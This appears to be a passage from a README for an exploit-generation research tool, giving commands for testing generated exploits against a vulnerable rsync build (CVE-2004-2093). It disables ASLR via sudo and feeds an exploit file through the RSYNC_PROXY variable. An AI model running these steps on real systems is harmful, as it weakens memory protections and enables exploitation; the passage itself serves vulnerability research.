 ## Exploitation

Currently the exploit script generation hasn't been perfectly tailored for `sym_env` yet,
so the recommended way to test the generated exploits is:

```sh
# Disable ASLR
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

# Clear all ENVs, set RSYNC_PROXY to the exploit string, and launch rsync with ::
env -i RSYNC_PROXY="`cat exploit-7fffffffef6d.bin`" ./CVE-2004-2093-rsync ::
```
